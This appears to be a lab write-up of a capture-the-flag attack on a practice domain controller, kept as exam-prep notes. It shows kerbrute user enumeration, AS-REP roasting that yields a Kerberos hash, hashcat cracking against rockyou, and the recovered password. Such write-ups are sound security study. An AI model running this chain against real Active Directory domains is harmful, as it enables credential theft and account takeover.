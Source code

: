 
```
enum4linux -a 10.10.10.175
```

```
Domain Name: EGOTISTICALBANK                                                  
Domain Sid: S-1-5-21-2966785786-3096785034-1186376766
```

Let's get some valid users as we came to know about the Domain Name
```
kerbrute userenum -d EGOTISTICALBANK --dc 10.10.10.175 userlist.txt -t  100
```

```
2024/05/01 05:30:52 >  [+] VALID USERNAME:       administrator@EGOTISTICALBANK
2024/05/01 05:31:09 >  [+] VALID USERNAME:       hsmith@EGOTISTICALBANK
2024/05/01 05:31:12 >  [+] VALID USERNAME:       Administrator@EGOTISTICALBANK
2024/05/01 05:31:21 >  [+] VALID USERNAME:       fsmith@EGOTISTICALBANK
```
![[Pasted image 20240501053829.png]]

So we are getting something even though we are got nothing from smb for not will enumerate it later. Will see asproasting and see if we get any ticket hash or not.

Users we got
```
administrator@EGOTISTICALBANK
hsmith@EGOTISTICALBANK
Administrator@EGOTISTICALBANK
fsmith@EGOTISTICALBANK
```

Don't do this mistake in the exam
we have to provide the Domain name and not the host name for the attack
![[Pasted image 20240501054417.png]]

ASProasting
![[Pasted image 20240501054433.png]]

```
$krb5asrep$fsmith@EGOTISTICALBANK@EGOTISTICALBANK:ac1285fbd11b34772846f44a434c0bd7$8dd65bb22872b02a09fabf87fee11a01bd86250c429f91a7a1ba8e07d0f5e31adc6996b46b9c32c6f2a67d63fffbc15b32fb8a2f674804e60d9ffc26e956427ac6f2a7ca2e18bc017e1e775d72e86d936febbe0fdd84b6ec561b853e020c0d6f660e0afa659c500c6f92e43ce019dc120e7de3cb0db2e1b17be30a4569e6686aa16b276941d1b5c8bb7fd1a77a2b43367b285939700d3248aecc537b36dcb3e9bb0f06f08b29b2d019685e724c244d35d52cbcb0df03f33a15be35e099a112c20a63fe6f1e2dda21adc0bb9f18cf5788e401a16836fcf837b1580c8ecfbdd240c2eca5ee19de40a475410d2c77a298f7d555fcc76ae7e2ea0b
```

So let's see if we can crack it or not.

Hashcat
https://hashcat.net/wiki/doku.php?id=example_hashes
![[Pasted image 20240501054727.png]]

```
 .\hashcat.exe -m 18200 -D 2 .\hashes4.txt .\rockyou.txt -O
```
![[Pasted image 20240501054841.png]]

Username:
```
fsmith
```

```
Thestrokes23
```


